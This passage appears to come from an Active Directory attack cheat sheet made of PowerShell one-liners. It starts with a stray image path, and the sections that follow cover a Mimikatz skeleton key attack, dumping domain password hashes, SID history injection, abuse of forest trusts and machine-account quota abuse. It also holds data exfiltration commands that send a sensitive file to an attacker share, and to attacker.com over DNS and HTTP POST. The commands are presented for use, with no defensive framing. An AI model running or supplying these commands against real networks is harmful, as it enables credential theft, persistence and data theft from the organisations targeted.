 #### **Skeleton Key Attack (Mimikatz)**
```powershell
Invoke-Mimikatz -Command '"misc::skeleton"'
```

---

### **6. Data Exfiltration**

#### **Dump All Domain User Password Hashes**
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' 
```

#### **Download Files from a Target**
```powershell
Invoke-Command -ComputerName target-PC -ScriptBlock { Copy-Item C:\sensitive.txt -Destination \\attacker-PC\share }
```

#### **Exfiltrate Data Over DNS**
```powershell
nslookup $(Get-Content C:\sensitive.txt) attacker.com
```

#### **Exfiltrate Files to a Web Server**
```powershell
Invoke-WebRequest -Uri "http://attacker.com/upload" -Method Post -InFile "C:\sensitive.txt"
```

---

### **7. Trust Exploitation & Forest Attack**

#### **Enumerate Trusts Between Domains**
```powershell
Get-ADTrust -Filter *
```

#### **Abuse Forest Trust for Lateral Movement**
```powershell
Invoke-Command -ComputerName target-forest-PC -Credential forest\user
```

#### **SID History Injection (Using Mimikatz)**
```powershell
Invoke-Mimikatz -Command '"lsadump::sid /inject /user:Backdoor /sid:S-1-5-21-..."'
```

#### **MS-DS-MachineAccountQuota Exploit**
```powershell
New-ADComputer -Name "EvilMachine" -SamAccountName "EvilMachine" -Instance (New-Object Microsoft.ActiveDirectory.Management.ADComputer) -PassThru | Set-ADObject -Add @{servicePrincipalName='EvilMachine/evilmachine.domain.com'}
```

---